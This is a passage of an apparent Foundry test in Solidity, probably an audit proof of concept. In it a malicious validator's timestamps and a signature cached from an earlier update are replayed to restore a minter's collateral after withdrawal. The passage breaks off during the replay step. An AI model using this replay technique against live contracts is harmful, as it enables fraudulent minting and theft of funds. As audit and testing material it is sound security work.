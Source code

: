 ```solidity
            uint256[] memory retrievalIds = new uint256[](0);
            uint256[] memory timestamps = new uint256[](2);
            timestamps[0] = block.timestamp;
            timestamps[1] = initialTimestamp + 1;

            bytes[] memory signatures = new bytes[](2);
            signatures[0] = _getCollateralUpdateSignature(address(_minterGateway), _minter1, 100e6, retrievalIds, bytes32(0), block.timestamp, _validator2Pk);
            signatures[1] = _getCollateralUpdateSignature(address(_minterGateway), _minter1, 100e6, retrievalIds, bytes32(0), initialTimestamp + 1, _validator1Pk);
            cacheSignatures = signatures;

            vm.prank(_minter1);
            _minterGateway.updateCollateral(100e6, retrievalIds, bytes32(0), validators, timestamps, signatures);

            assertEq(_minterGateway.collateralOf(_minter1), 100e6);
            assertEq(_minterGateway.collateralUpdateTimestampOf(_minter1), initialTimestamp + 1);
        }

        // 2. Retrieve all collateral, and set malicious validator timestamp to `initialTimestamp+2` during `updateCollateral()`.
        {
            vm.prank(_minter1);
            uint256 retrievalId = _minterGateway.proposeRetrieval(100e6);

            vm.warp(block.timestamp + 100);

            uint256[] memory newRetrievalIds = new uint256[](1);
            newRetrievalIds[0] = retrievalId;

            uint256[] memory timestamps = new uint256[](2);
            timestamps[0] = block.timestamp;
            timestamps[1] = initialTimestamp + 2;

            bytes[] memory signatures = new bytes[](2);
            signatures[0] = _getCollateralUpdateSignature(address(_minterGateway), _minter1, 0, newRetrievalIds, bytes32(0), block.timestamp, _validator2Pk);
            signatures[1] = _getCollateralUpdateSignature(address(_minterGateway), _minter1, 0, newRetrievalIds, bytes32(0), initialTimestamp + 2, _validator1Pk);

            vm.prank(_minter1);
            _minterGateway.updateCollateral(0, newRetrievalIds, bytes32(0), validators, timestamps, signatures);

            assertEq(_minterGateway.collateralOf(_minter1), 0);
            assertEq(_minterGateway.collateralUpdateTimestampOf(_minter1), initialTimestamp + 2);
        }

        // 3. Reuse signature from step 1, and set malicious validator timestamp to `initialTimestamp+3` during `updateCollateral()`.
        //    We have successfully "travelled back in time", and minter1's collateral is back to 100e6.
        {
            vm.warp(block.timestamp + 100);

            uint256[] memory retrievalIds = new uint256[](0);
            uint256[] memory timestamps = new uint256[](2);
            timestamps[0] = block.timestamp - 200;
            timestamps[1] = initialTimestamp + 3;

            bytes[] memory signatures = new bytes[](2);
            signatures[0] = cacheSignatures[0];
```